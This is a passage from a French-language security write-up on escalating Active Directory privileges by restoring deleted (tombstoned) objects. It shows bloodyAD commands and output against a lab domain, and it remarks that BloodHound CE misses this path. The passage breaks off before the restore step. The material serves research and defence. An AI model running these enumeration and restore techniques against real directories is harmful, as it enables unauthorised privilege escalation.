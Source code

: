 ```powershell
nTSecurityDescriptor.Owner: Domain Admins
nTSecurityDescriptor.Control: DACL_PRESENT|SELF_RELATIVE
[...]
nTSecurityDescriptor.ACL.28.Type: == ALLOWED ==
nTSecurityDescriptor.ACL.28.Trustee: john
nTSecurityDescriptor.ACL.28.Right: GENERIC_ALL
nTSecurityDescriptor.ACL.28.ObjectType: Self
nTSecurityDescriptor.ACL.28.Flags: CONTAINER_INHERIT; INHERITED
[...]

$ bloodyAD --host 192.168.100.3 -d bloody -u john -p 'Password123!' get object 'CN=Users,DC=bloody,DC=corp' --attr ntsecuritydescriptor --resolve-sd

distinguishedName: CN=Users,DC=bloody,DC=corp
nTSecurityDescriptor.Owner: Domain Admins
nTSecurityDescriptor.Control: DACL_AUTO_INHERITED|DACL_PRESENT|SACL_AUTO_INHERITED|SELF_RELATIVE
[...]
nTSecurityDescriptor.ACL.3.Type: == ALLOWED ==
nTSecurityDescriptor.ACL.3.Trustee: john
nTSecurityDescriptor.ACL.3.Right: CREATE_CHILD
nTSecurityDescriptor.ACL.3.ObjectType: Self
nTSecurityDescriptor.ACL.3.Flags: CONTAINER_INHERIT
[...]
```
{{% callout note %}}
Par défaut, seuls les Domain Admins peuvent lister et restaurer les objets supprimés.
{{% /callout %}}

SharpHound ne récupère pas les objets supprimés même s'il est exécuté en tant que Domain Admin, malgré ce que suggère la documentation ([voir la doc BloodHound](https://bloodhound.specterops.io/collect-data/permissions#granting-access-to-the-deleted-objects-container-optional)).  
BloodHound CE **ne peut donc pas** détecter les opportunités d’élévation de privilèges via les objets supprimés.

## Scénarios réels

Une fois qu’un attaquant s’est assuré d’avoir les droits nécessaires sur un objet supprimé, une OU et le droit **Restore Tombstoned** :

````powershell
$ bloodyAD --host 192.168.100.3 -d bloody -u john -p 'Password123!' get writable --include-del
[...]
distinguishedName: CN=garbage.admin\0ADEL:c9e8a129-f77f-4159-b700-3c8fd06963fe,CN=Deleted Objects,DC=bloody,DC=corp
permission: WRITE
[...]
DistinguishedName: CN=Users,DC=bloody,DC=corp
permission: CREATE_CHILD
````

Il peut alors restaurer l’objet facilement via le sAMAccountName ou l’objectSID :
